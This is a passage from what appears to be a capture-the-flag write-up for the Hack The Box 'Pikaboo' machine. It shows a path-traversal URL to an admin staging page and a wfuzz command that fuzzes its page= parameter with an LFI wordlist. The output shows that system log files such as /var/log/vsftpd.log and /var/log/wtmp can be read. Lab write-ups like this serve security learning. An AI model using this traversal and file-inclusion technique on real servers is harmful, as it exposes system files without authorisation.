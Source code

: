 ![pikaboo-admin-staging](/assets/images/2021-11-14-13-19-19.png)

There's nothing much here but one thing to notice is the URL changes as we navigate around:

```text
http://pikaboo.htb/admin../admin_staging/index.php?page=user.php
http://pikaboo.htb/admin../admin_staging/index.php?page=tables.php
http://pikaboo.htb/admin../admin_staging/index.php?page=typography.php
```

We can fuzz that page= parameter to see if there are any other pages we haven't found. Hacktricks has a good guide [here](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz) we can use:

```text
┌──(root💀kali)-[~/htb/pikaboo]
└─# wfuzz -c -f pikaboo,raw -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hl 367 -X POST -u http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ
Total requests: 914
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000733:   200        413 L    1670 W     19803 Ch    "/var/log/vsftpd.log"
000000734:   200        557 L    1383 W     169659 Ch   "/var/log/wtmp"

Total time: 0
Processed Requests: 914
Filtered Requests: 912
Requests/sec.: 0
```
